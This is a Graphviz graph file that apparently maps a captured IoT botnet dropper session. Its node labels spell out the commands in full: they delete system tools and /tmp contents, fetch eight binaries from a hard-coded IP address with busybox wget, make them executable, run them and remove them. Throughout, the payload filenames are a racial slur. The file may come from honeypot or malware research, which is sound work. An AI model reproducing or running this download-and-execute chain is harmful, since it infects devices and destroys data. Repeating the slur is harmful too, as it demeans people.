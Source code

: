 digraph {
0 [label="ulimit -u 512 "];
0 -> 0
2 [label="ulimit -n 512 "];
2 -> 2
248 [label="rm -f * "];
248 -> 248
6 [label="busybox rm -rf /tmp/* "];
6 -> 6
8 [label="busybox rm -rf /usr/bin/strings "];
8 -> 8
10 [label="busybox rm -rf /usr/bin/ps "];
10 -> 10
92 [label="busybox wget http://185.103.109.204/nigger1 "];
92 -> 92
14 [label="busybox chmod +x nigger1 "];
14 -> 106 [label=";,"];
106 [label="./nigger1 "];
106 -> 108 [label=";,"];
108 [label="busybox rm -f nigger1* "];
108 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
112 [label="busybox wget http://185.103.109.204/nigger2 "];
112 -> 112
24 [label="busybox chmod +x nigger2 "];
24 -> 126 [label=";,"];
126 [label="./nigger2 "];
126 -> 128 [label=";,"];
128 [label="busybox rm -f nigger2* "];
128 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
132 [label="busybox wget http://185.103.109.204/nigger3 "];
132 -> 132
34 [label="busybox chmod +x nigger3 "];
34 -> 146 [label=";,"];
146 [label="./nigger3 "];
146 -> 148 [label=";,"];
148 [label="busybox rm -f nigger3* "];
148 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
152 [label="busybox wget http://185.103.109.204/nigger4 "];
152 -> 152
44 [label="busybox chmod +x nigger4 "];
44 -> 166 [label=";,"];
166 [label="./nigger4 "];
166 -> 168 [label=";,"];
168 [label="busybox rm -f nigger4* "];
168 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
172 [label="busybox wget http://185.103.109.204/nigger5 "];
172 -> 172
54 [label="busybox chmod +x nigger5 "];
54 -> 186 [label=";,"];
186 [label="./nigger5 "];
186 -> 188 [label=";,"];
188 [label="busybox rm -f nigger5* "];
188 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
192 [label="busybox wget http://185.103.109.204/nigger6 "];
192 -> 192
64 [label="busybox chmod +x nigger6 "];
64 -> 206 [label=";,"];
206 [label="./nigger6 "];
206 -> 208 [label=";,"];
208 [label="busybox rm -f nigger6* "];
208 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
212 [label="busybox wget http://185.103.109.204/nigger7 "];
212 -> 212
74 [label="busybox chmod +x nigger7 "];
74 -> 226 [label=";,"];
226 [label="./nigger7 "];
226 -> 228 [label=";,"];
228 [label="busybox rm -f nigger7* "];
228 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
230 [label="busybox wget http://185.103.109.204/nigger8 "];
230 -> 230
84 [label="busybox chmod +x nigger8 "];
84 -> 244 [label=";,"];
244 [label="./nigger8 "];
244 -> 246 [label=";,"];
246 [label="busybox rm -f nigger8* "];
246 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
92 [label="busybox wget http://185.103.109.204/nigger1 "];
92 -> 92
232 [label="busybox cp /bin/busybox ./ "];
232 -> 96 [label=";,"];
96 [label="busybox cat nigger1 busybox "];
96 -> 236 [label=";,"];
236 [label="busybox "];
236 -> 236
100 [label="busybox rm -f nigger1 "];
100 -> 102 [label=";,"];
102 [label="busybox cp busybox nigger1 "];
102 -> 242 [label=";,"];
242 [label="busybox rm -f busybox "];
242 -> 106 [label=";,"];
106 [label="./nigger1 "];
106 -> 108 [label=";,"];
108 [label="busybox rm -f nigger1* "];
108 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
112 [label="busybox wget http://185.103.109.204/nigger2 "];
112 -> 112
232 [label="busybox cp /bin/busybox ./ "];
232 -> 116 [label=";,"];
116 [label="busybox cat nigger2 busybox "];
116 -> 236 [label=";,"];
236 [label="busybox "];
236 -> 236
120 [label="busybox rm -f nigger2 "];
120 -> 122 [label=";,"];
122 [label="busybox cp busybox nigger2 "];
122 -> 242 [label=";,"];
242 [label="busybox rm -f busybox "];
242 -> 126 [label=";,"];
126 [label="./nigger2 "];
126 -> 128 [label=";,"];
128 [label="busybox rm -f nigger2* "];
128 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
132 [label="busybox wget http://185.103.109.204/nigger3 "];
132 -> 132
232 [label="busybox cp /bin/busybox ./ "];
232 -> 136 [label=";,"];
136 [label="busybox cat nigger3 busybox "];
136 -> 236 [label=";,"];
236 [label="busybox "];
236 -> 236
140 [label="busybox rm -f nigger3 "];
140 -> 142 [label=";,"];
142 [label="busybox cp busybox nigger3 "];
142 -> 242 [label=";,"];
242 [label="busybox rm -f busybox "];
242 -> 146 [label=";,"];
146 [label="./nigger3 "];
146 -> 148 [label=";,"];
148 [label="busybox rm -f nigger3* "];
148 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
152 [label="busybox wget http://185.103.109.204/nigger4 "];
152 -> 152
232 [label="busybox cp /bin/busybox ./ "];
232 -> 156 [label=";,"];
156 [label="busybox cat nigger4 busybox "];
156 -> 236 [label=";,"];
236 [label="busybox "];
236 -> 236
160 [label="busybox rm -f nigger4 "];
160 -> 162 [label=";,"];
162 [label="busybox cp busybox nigger4 "];
162 -> 242 [label=";,"];
242 [label="busybox rm -f busybox "];
242 -> 166 [label=";,"];
166 [label="./nigger4 "];
166 -> 168 [label=";,"];
168 [label="busybox rm -f nigger4* "];
168 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
172 [label="busybox wget http://185.103.109.204/nigger5 "];
172 -> 172
232 [label="busybox cp /bin/busybox ./ "];
232 -> 176 [label=";,"];
176 [label="busybox cat nigger5 busybox "];
176 -> 236 [label=";,"];
236 [label="busybox "];
236 -> 236
180 [label="busybox rm -f nigger5 "];
180 -> 182 [label=";,"];
182 [label="busybox cp busybox nigger5 "];
182 -> 242 [label=";,"];
242 [label="busybox rm -f busybox "];
242 -> 186 [label=";,"];
186 [label="./nigger5 "];
186 -> 188 [label=";,"];
188 [label="busybox rm -f nigger5* "];
188 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
192 [label="busybox wget http://185.103.109.204/nigger6 "];
192 -> 192
232 [label="busybox cp /bin/busybox ./ "];
232 -> 196 [label=";,"];
196 [label="busybox cat nigger6 busybox "];
196 -> 236 [label=";,"];
236 [label="busybox "];
236 -> 236
200 [label="busybox rm -f nigger6 "];
200 -> 202 [label=";,"];
202 [label="busybox cp busybox nigger6 "];
202 -> 242 [label=";,"];
242 [label="busybox rm -f busybox "];
242 -> 206 [label=";,"];
206 [label="./nigger6 "];
206 -> 208 [label=";,"];
208 [label="busybox rm -f nigger6* "];
208 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
212 [label="busybox wget http://185.103.109.204/nigger7 "];
212 -> 212
232 [label="busybox cp /bin/busybox ./ "];
232 -> 216 [label=";,"];
216 [label="busybox cat nigger7 busybox "];
216 -> 236 [label=";,"];
236 [label="busybox "];
236 -> 236
220 [label="busybox rm -f nigger7 "];
220 -> 222 [label=";,"];
222 [label="busybox cp busybox nigger7 "];
222 -> 242 [label=";,"];
242 [label="busybox rm -f busybox "];
242 -> 226 [label=";,"];
226 [label="./nigger7 "];
226 -> 228 [label=";,"];
228 [label="busybox rm -f nigger7* "];
228 -> 230 [label=";,"];
230 [label="busybox wget http://185.103.109.204/nigger8 "];
230 -> 230
232 [label="busybox cp /bin/busybox ./ "];
232 -> 234 [label=";,"];
234 [label="busybox cat nigger8 busybox "];
234 -> 236 [label=";,"];
236 [label="busybox "];
236 -> 236
238 [label="busybox rm -f nigger8 "];
238 -> 240 [label=";,"];
240 [label="busybox cp busybox nigger8 "];
240 -> 242 [label=";,"];
242 [label="busybox rm -f busybox "];
242 -> 244 [label=";,"];
244 [label="./nigger8 "];
244 -> 246 [label=";,"];
246 [label="busybox rm -f nigger8* "];
246 -> 248 [label=";,"];
248 [label="rm -f * "];
248 -> 248
250 [label="sleep 1 "];
250 -> 250
}

